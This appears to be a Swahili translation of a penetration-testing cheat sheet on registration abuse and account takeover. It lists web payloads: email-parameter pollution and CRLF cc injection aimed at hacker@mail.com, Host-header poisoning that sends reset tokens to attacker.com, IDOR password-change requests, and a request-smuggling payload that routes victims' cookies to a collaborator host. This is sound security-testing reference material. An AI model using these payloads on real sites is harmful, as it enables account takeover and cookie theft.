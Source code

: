 # Usajili & Ukatili wa Akaunti

{{#include ../banners/hacktricks-training.md}}

## Ukatili wa Usajili

### Usajili wa Nakala

- Jaribu kuunda kwa kutumia jina la mtumiaji lililopo
- Angalia kubadilisha barua pepe:
- herufi kubwa
- \+1@
- ongeza nukta kwenye barua pepe
- wahusika maalum katika jina la barua pepe (%00, %09, %20)
- Weka wahusika weusi baada ya barua pepe: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Uhesabuji wa Jina la Mtumiaji

Angalia kama unaweza kubaini wakati jina la mtumiaji tayari limeregisteriwa ndani ya programu.

### Sera ya Nywila

Unapounda mtumiaji angalia sera ya nywila (angalia kama unaweza kutumia nywila dhaifu).\
Katika hali hiyo unaweza kujaribu kubruteforce akauti.

### SQL Injection

[**Angalia ukurasa huu** ](sql-injection/#insert-statement)kujifunza jinsi ya kujaribu ukatili wa akaunti au kutoa taarifa kupitia **SQL Injections** katika fomu za usajili.

### Oauth Ukatili

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### Ukatili wa SAML

{{#ref}}
saml-attacks/
{{#endref}}

### Badilisha Barua Pepe

Wakati wa usajili jaribu kubadilisha barua pepe na angalia kama mabadiliko haya yanathibitishwa kwa usahihi au unaweza kuyabadilisha kuwa barua pepe zisizo na mpangilio.

### Ukaguzi Zaidi

- Angalia kama unaweza kutumia **barua pepe za muda**
- **Nywila** **Ndefu** (>200) inasababisha **DoS**
- **Angalia mipaka ya viwango kwenye uundaji wa akaunti**
- Tumia username@**burp_collab**.net na uchambue **callback**

## **Ukatili wa Kurekebisha Nywila**

### Kuvuja kwa Tokeni ya Kurekebisha Nywila Kupitia Referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Omba kurekebisha nywila kwa anwani yako ya barua pepe
2. Bonyeza kwenye kiungo cha kurekebisha nywila
3. Usibadilishe nywila
4. Bonyeza tovuti zozote za upande wa tatu (mfano: Facebook, twitter)
5. Kamatia ombi katika Burp Suite proxy
6. Angalia kama kichwa cha referer kinavuja tokeni ya kurekebisha nywila.

### Ukatili wa Kurekebisha Nywila kwa Msumeno <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Kamatia ombi la kurekebisha nywila katika Burp Suite
2. Ongeza au hariri vichwa vifuatavyo katika Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Peleka ombi na kichwa kilichobadilishwa\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Tafuta URL ya kurekebisha nywila kulingana na _kichwa cha host_ kama: `https://attacker.com/reset-password.php?token=TOKEN`

### Kurekebisha Nywila Kupitia Kigezo cha Barua Pepe <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR kwenye Parameta za API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Mshambuliaji lazima aingie kwenye akaunti yao na aende kwenye kipengele cha **Badilisha nenosiri**.
2. Anza Burp Suite na uingilie ombi
3. Tuma kwenye tab ya repeater na uhariri parameta: User ID/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Token ya Kurekebisha Nenosiri dhaifu <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Token ya kurekebisha nenosiri inapaswa kuundwa kwa bahati nasibu na kuwa ya kipekee kila wakati.\
Jaribu kubaini kama token inakoma au ikiwa kila wakati ni ile ile, katika baadhi ya matukio algorithimu ya uzalishaji ni dhaifu na inaweza kukisiwa. Vigezo vifuatavyo vinaweza kutumika na algorithimu.

- Wakati
- UserID
- Barua pepe ya Mtumiaji
- Jina la Kwanza na Jina la Mwisho
- Tarehe ya Kuzaliwa
- Usalama wa Habari
- Nambari pekee
- Mfuatano mdogo wa token (herufi kati ya \[A-Z,a-z,0-9])
- Matumizi ya token tena
- Tarehe ya kumalizika kwa token

### Kuvuja kwa Token ya Kurekebisha Nenosiri <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Trigger ombi la kurekebisha nenosiri kwa kutumia API/UI kwa barua pepe maalum e.g: test@mail.com
2. Kagua jibu la seva na angalia kwa `resetToken`
3. Kisha tumia token hiyo katika URL kama `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Kurekebisha Nenosiri Kupitia Mkutano wa Jina la Mtumiaji <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Jisajili kwenye mfumo kwa jina la mtumiaji linalofanana na jina la mtumiaji wa mwathirika, lakini ukiweka nafasi za wazi kabla na/au baada ya jina la mtumiaji. e.g: `"admin "`
2. Omba kurekebisha nenosiri kwa jina lako la mtumiaji la uhalifu.
3. Tumia token iliyotumwa kwa barua pepe yako na urekebishe nenosiri la mwathirika.
4. Unganisha kwenye akaunti ya mwathirika kwa nenosiri jipya.

Jukwaa la CTFd lilikuwa na udhaifu kwa shambulio hili.\
Tazama: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Kuchukua Akaunti Kupitia Uandishi wa Msalaba <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Pata XSS ndani ya programu au subdomain ikiwa vidakuzi vimewekwa kwenye kikoa cha domain ya mzazi: `*.domain.com`
2. Kuvuja **vidakuzi vya sasa vya sessions**
3. Thibitisha kama mtumiaji kwa kutumia kidakuzi

### Kuchukua Akaunti Kupitia Uhamasishaji wa Ombi la HTTP <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Tumia **smuggler** kugundua aina ya Uhamasishaji wa Ombi la HTTP (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Tengeneza ombi ambalo litabadilisha `POST / HTTP/1.1` na data ifuatayo:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` kwa lengo la kufungua kuhamasisha waathirika kwa burpcollab na kuiba vidakuzi vyao\
3\. Ombi la mwisho linaweza kuonekana kama ifuatavyo
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone inaripoti kutumia hitilafu hii\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Kuchukua Akaunti kupitia CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Tengeneza payload kwa ajili ya CSRF, e.g: “Fomu ya HTML yenye kuwasilisha kiotomatiki kwa ajili ya kubadilisha nenosiri”
2. Tuma payload

### Kuchukua Akaunti kupitia JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token inaweza kutumika kuthibitisha mtumiaji.

- Hariri JWT kwa ID ya Mtumiaji / Barua pepe nyingine
- Angalia saini dhaifu ya JWT

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Marejeleo

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}

